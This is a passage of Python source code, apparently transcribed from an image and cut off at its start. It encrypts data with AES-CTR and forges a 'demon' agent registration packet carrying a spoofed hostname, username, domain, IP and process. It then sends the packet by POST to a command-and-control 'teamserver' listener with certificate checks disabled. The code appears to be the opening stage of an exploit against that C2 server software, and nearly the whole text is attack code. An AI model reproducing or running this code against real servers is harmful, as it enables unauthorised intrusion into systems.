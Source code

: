 ```python
            key = key + b"0"

        assert len(key) == key_bytes

        # Convert the IV from bytes to a large integer
        iv_int = int(binascii.hexlify(iv), 16)

        # Create a Counter object for CTR mode using the IV integer
        ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)

        # Create AES-CTR cipher object
        aes = AES.new(key, AES.MODE_CTR, counter=ctr)

        # Encrypt the plaintext
        ciphertext = aes.encrypt(plaintext)
        return ciphertext


def int_to_bytes(value, length=4, byteorder="big"):
    return value.to_bytes(length, byteorder)


def register_agent(hostname, username, domain_name, internal_ip, process_name, process_id):
    command = b"\x00\x00\x00\x63"    # Command for registering an agent
    request_id = b"\x00\x00\x00\x01" # Arbitrary request ID
    demon_id = agent_id              # Global agent ID

    # Convert lengths to bytes (4 bytes, big-endian)
    hostname_length = int_to_bytes(len(hostname))
    username_length = int_to_bytes(len(username))
    domain_name_length = int_to_bytes(len(domain_name))
    internal_ip_length = int_to_bytes(len(internal_ip))
    process_name_length = int_to_bytes(len(process_name) - 6)

    # Padding data (seems to be a fixed filler of 100 bytes)
    data = b"\xab" * 100

    # Build the header data as specified
    header_data = (
        command + request_id + AES_Key + AES_IV + demon_id +
        hostname_length + hostname +
        username_length + username +
        domain_name_length + domain_name +
        internal_ip_length + internal_ip +
        process_name_length + process_name +
        process_id + data
    )

    # Calculate the size of the entire package (12 bytes overhead + header_data)
    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')

    # Construct the final agent header
    agent_header = size_bytes + magic + agent_id

    print(agent_header + header_data)
    print("[***] Trying to register agent...")

    # Send a POST request to the teamserver
    r = requests.post(teamserver_listener_url, data=agent_header + header_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
```